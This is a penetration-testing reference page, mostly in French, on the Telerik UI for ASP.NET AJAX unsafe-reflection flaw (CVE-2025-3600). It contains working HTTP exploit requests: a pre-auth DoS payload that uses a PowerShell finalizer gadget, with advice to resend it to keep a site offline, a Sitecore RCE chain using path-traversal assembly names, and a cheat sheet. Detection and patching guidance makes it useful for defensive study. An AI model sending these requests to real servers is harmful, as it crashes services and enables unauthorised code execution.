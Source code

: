 # Telerik UI for ASP.NET AJAX – Unsafe Reflection via WebResource.axd (type=iec)

{{#include ../../banners/hacktricks-training.md}}

> Exécution du constructeur pre‑auth dans le gestionnaire de cache Image Editor de Telerik UI for ASP.NET AJAX permet un DoS universel et, dans de nombreuses apps, une RCE pre‑auth via des gadgets spécifiques à la cible (CVE-2025-3600).

## TL;DR

- Composant/route affecté : Telerik.Web.UI.WebResource.axd avec la query type=iec (gestionnaire de cache Image Editor). Exposé pre‑auth dans de nombreux produits.
- Primitive : l'attaquant contrôle un nom de type (prtype). Le handler le résout avec Type.GetType() et invoque Activator.CreateInstance() avant de vérifier la sécurité de type de l'interface. Tout constructeur public sans paramètre d'un type .NET s'exécutera.
- Impact :
  - DoS pre‑auth universel via un gadget .NET framework (PowerShell WSMan finalizer).
  - S'élève souvent en RCE pre‑auth dans des déploiements réels en abusant de gadgets spécifiques à l'app, notamment les handlers AppDomain.AssemblyResolve non sécurisés.
- Correction : Mettre à jour vers Telerik UI for ASP.NET AJAX 2025.1.416+ ou supprimer/verrouiller le handler.

## Versions affectées

- Telerik UI for ASP.NET AJAX versions 2011.2.712 through 2025.1.218 (inclusive) sont vulnérables.
- Corrigé dans 2025.1.416 (released 2025-04-30). Appliquez le patch immédiatement ou supprimez/verrouillez le handler.

## Surface affectée et découverte rapide

- Vérifier l'exposition :
  - GET /Telerik.Web.UI.WebResource.axd devrait renvoyer autre chose que 404/403 si le handler est configuré.
  - Inspecter web.config pour les handlers mappés vers Telerik.Web.UI.WebResource.axd.
  - Le chemin pour déclencher le code vulnérable requiert : type=iec, dkey=1, et prtype=<AssemblyQualifiedType>.

Exemple de probe et déclencheur générique:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=Namespace.Type, Assembly
```
Remarques
- Some PoCs use dtype; the implementation checks dkey=="1" for the download flow.
- prtype doit être assembly-qualified ou résolvable dans l'AppDomain courant.

## Cause racine – unsafe reflection dans ImageEditorCacheHandler

Le flux de téléchargement du cache de l'Image Editor construit une instance d'un type fourni dans prtype et ne la convertit en ICacheImageProvider que plus tard, puis valide la clé de téléchargement. Le constructeur a déjà été exécuté lorsque la validation échoue.

<details>
<summary>Flux décompilé pertinent</summary>
```csharp
// entrypoint
public void ProcessRequest(HttpContext context)
{
string text = context.Request["dkey"];           // dkey
string text2 = context.Request.Form["encryptedDownloadKey"]; // download key
...
if (this.IsDownloadedFromImageProvider(text)) // effectively dkey == "1"
{
ICacheImageProvider imageProvider = this.GetImageProvider(context); // instantiation happens here
string key = context.Request["key"];
if (text == "1" && !this.IsValidDownloadKey(text2))
{
this.CompleteAsBadRequest(context.ApplicationInstance);
return; // cast/check happens after ctor has already run
}
using (EditableImage editableImage = imageProvider.Retrieve(key))
{
this.SendImage(editableImage, context, text, fileName);
}
}
}

private ICacheImageProvider GetImageProvider(HttpContext context)
{
if (!string.IsNullOrEmpty(context.Request["prtype"]))
{
return RadImageEditor.InitCacheImageProvider(
RadImageEditor.GetICacheImageProviderType(context.Request["prtype"]) // [A]
);
}
...
}

public static Type GetICacheImageProviderType(string imageProviderTypeName)
{
return Type.GetType(string.IsNullOrEmpty(imageProviderTypeName) ?
typeof(CacheImageProvider).FullName : imageProviderTypeName); // [B]
}

protected internal static ICacheImageProvider InitCacheImageProvider(Type t)
{
// unsafe: construct before enforcing interface type-safety
return (ICacheImageProvider)Activator.CreateInstance(t); // [C]
}
```
</details>

Primitive d'exploitation : chaîne de type contrôlée → Type.GetType la résout → Activator.CreateInstance exécute son constructeur public sans paramètres. Même si la requête est ensuite rejetée, les gadget side‑effects se sont déjà produits.

## Universal DoS gadget (aucun gadget spécifique à l'application requis)

Classe : System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper in System.Management.Automation (PowerShell) possède un finalizer qui dispose d'un handle non initialisé, provoquant une exception non gérée lorsque le GC le finalise. Cela fait planter de manière fiable le processus worker IIS peu après l'instanciation.

Requête DoS unique :
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```
Remarques
- Keep sending periodically to keep the site offline. You may observe the constructor being hit in a debugger; crash occurs on finalization.

## De DoS à RCE – schémas d'escalade

L'exécution unsafe du constructor débloque de nombreux gadgets et chaînes spécifiques à la cible. Recherchez :

1) Parameterless constructors that process attacker input
- Some ctors (or static initializers) immediately read Request query/body/cookies/headers and (de)serialize them.
- Example (Sitecore): a ctor chain reaches GetLayoutDefinition() which reads HTTP body "layout" and deserializes JSON via JSON.NET.

2) Constructors that touch files
- Ctros that load or deserialize config/blobs from disk can be coerced if you can write to those paths (uploads/temp/data folders).

3) Constructors performing app-specific ops
- Resetting state, toggling modules, or terminating processes.

4) Constructors/static ctors that register AppDomain event handlers
- Many apps add AppDomain.CurrentDomain.AssemblyResolve handlers that build DLL paths from args.Name without sanitization. If you can influence type resolution you can coerce arbitrary DLL loads from attacker‑controlled paths.

5) Forcing AssemblyResolve via Type.GetType
- Request a non-existent type to force CLR resolution and invoke registered (possibly insecure) resolvers. Example assembly-qualified name:
```
This.Class.Does.Not.Exist, watchTowr
```
6) Finalizers avec des effets secondaires destructeurs
- Certains types suppriment des fichiers à chemin fixe dans leurs finalizers. Combiné avec le suivi de liens ou des chemins prévisibles, cela peut permettre une élévation de privilèges locale dans certains environnements.

## Exemple de chaîne pre‑auth RCE (Sitecore XP)

- Étape 1 – Pre‑auth: Déclencher un type dont le static/instance ctor enregistre un insecure AssemblyResolve handler (e.g., Sitecore’s FolderControlSource in ControlFactory).
- Étape 2 – Post‑auth: Obtenir un accès en écriture dans un resolver-probed directory (e.g., via an auth bypass or weak upload) et y déposer une DLL malveillante.
- Étape 3 – Pre‑auth: Utiliser CVE‑2025‑3600 avec un type non existant et un traversal‑laden assembly name pour forcer le resolver à charger votre DLL plantée → exécution de code en tant que worker IIS.

Trigger examples
```http
# Load the insecure resolver (no auth on many setups)
GET /-/xaml/Sitecore.Shell.Xaml.WebControl

# Coerce the resolver via Telerik unsafe reflection
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=watchTowr.poc,+../../../../../../../../../watchTowr
```
## Validation, hunting and DFIR notes

- Validation sûre en laboratoire : lancez le DoS payload et surveillez le recycle de l'app pool / les unhandled exception liés au WSMan finalizer.
- Hunt in telemetry:
- Requêtes vers /Telerik.Web.UI.WebResource.axd avec type=iec et valeurs prtype étranges.
- Échecs de chargement de type et événements AppDomain.AssemblyResolve.
- Crashes/recycles soudains de w3wp.exe à la suite de telles requêtes.

## Atténuation

- Mettre à jour Telerik UI for ASP.NET AJAX vers 2025.1.416 ou ultérieur.
- Supprimez ou restreignez l'exposition de Telerik.Web.UI.WebResource.axd lorsque possible (WAF/rewrites).
- Ignorer ou durcir la gestion de prtype côté serveur (la mise à jour applique des vérifications appropriées avant instanciation).
- Auditer et durcir les gestionnaires AppDomain.AssemblyResolve personnalisés. Évitez de construire des chemins à partir de args.Name sans désinfection ; préférez des chargements strong-named ou des listes blanches.
- Restreindre les emplacements d'upload/écriture et empêcher les dépôts de DLL dans les répertoires sondés.
- Surveiller les tentatives de chargement de types non existants pour détecter les abus du resolver.

## Aide‑mémoire

- Vérification de présence :
- GET /Telerik.Web.UI.WebResource.axd
- Rechercher le mapping du handler dans web.config
- Exploit skeleton:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=<TypeName,+Assembly,+Version=..., +PublicKeyToken=...>
```
- Universal DoS:
```http
...&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```
- Résolveur de déclenchement:
```
This.Class.Does.Not.Exist, watchTowr
```
## Techniques associées

- IIS post-exploitation, .NET key extraction, et in‑memory loaders:

{{#ref}}
iis-internet-information-services.md
{{#endref}}

- ASP.NET ViewState deserialization et machineKey abuses:

{{#ref}}
../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md
{{#endref}}

## Références

- [watchTowr labs – More than DoS: Progress Telerik UI for ASP.NET AJAX Unsafe Reflection (CVE-2025-3600)](https://labs.watchtowr.com/more-than-dos-progress-telerik-ui-for-asp-net-ajax-unsafe-reflection-cve-2025-3600/)
- [Black Hat USA 2019 – SSO Wars: The Token Menace (Mirosh & Muñoz) – DoS gadget background](https://i.blackhat.com/USA-19/Wednesday/us-19-Munoz-SSO-Wars-The-Token-Menace-wp.pdf)
- [ZDI – Abusing arbitrary file deletes to escalate privilege](https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks)
- [watchTowr – Is “B” for Backdoor? (Sitecore chain CVE-2025-34509)](https://labs.watchtowr.com/is-b-for-backdoor-pre-auth-rce-chain-in-sitecore-experience-platform/)

{{#include ../../banners/hacktricks-training.md}}
